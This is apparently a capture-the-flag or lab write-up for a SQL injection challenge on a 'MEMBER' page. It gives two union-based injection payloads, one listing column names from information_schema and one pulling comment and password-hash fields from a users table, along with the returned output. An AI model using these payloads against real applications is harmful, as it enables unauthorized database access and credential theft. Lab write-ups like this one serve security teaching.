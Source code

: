 # SQL injection

## vulnerability
see [SQLi_for_image_Resources/README.md](SQLi_for_image/Resources/README.md)

## exploit
Home -> MEMBER

1. union based SQL injection<br/>
```
1 union select null, column_name from information_schema.columns--
```
->
```
ID: 1 union select  null, column_name from information_schema.columns-- 
First name: 
Surname : Commentaire
ID: 1 union select  null, column_name from information_schema.columns-- 
First name: 
Surname : countersign
```
***
```
1 union select Commentaire, countersign from users--
```
->
```
ID: 1 union select Commentaire, countersign from users-- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
